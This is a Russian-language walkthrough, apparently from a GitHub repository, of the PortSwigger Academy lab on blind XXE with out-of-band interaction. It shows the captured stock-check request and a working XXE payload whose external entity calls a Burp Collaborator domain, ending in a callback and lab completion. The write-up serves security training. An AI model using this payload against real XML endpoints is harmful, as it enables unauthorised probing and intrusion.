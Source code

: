 перейдем на случайную страницу товара и проверим его наличие с помощью кнопки `Get stock`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/3.%20Blind%20XXE%20with%20out-of-band%20interaction/pics%20for%20walktrough/1.png)
найдем данный запрос в `Proxy` -> `HTTP history`
```
POST /product/stock 
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
и отправим его в `Repeater`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/3.%20Blind%20XXE%20with%20out-of-band%20interaction/pics%20for%20walktrough/2.png)

Попробуем получить отстук на сгенерированный DGA домен добавив `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://u94fkfz3xfin98vve09t93vpqgw7kx8m.oastify.com"> ]>` в тело XML запроса
```
<?xml version="1.0" encoding="UTF-8"?>
...
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://u94fkfz3xfin98vve09t93vpqgw7kx8m.oastify.com"> ]>
...
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/3.%20Blind%20XXE%20with%20out-of-band%20interaction/pics%20for%20walktrough/3.png)
мы получили 400 статус респонс код, но все равно получили отстук на коллаборатор и уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/11.%20XXE%20injection/3.%20Blind%20XXE%20with%20out-of-band%20interaction/pics%20for%20walktrough/4.png)
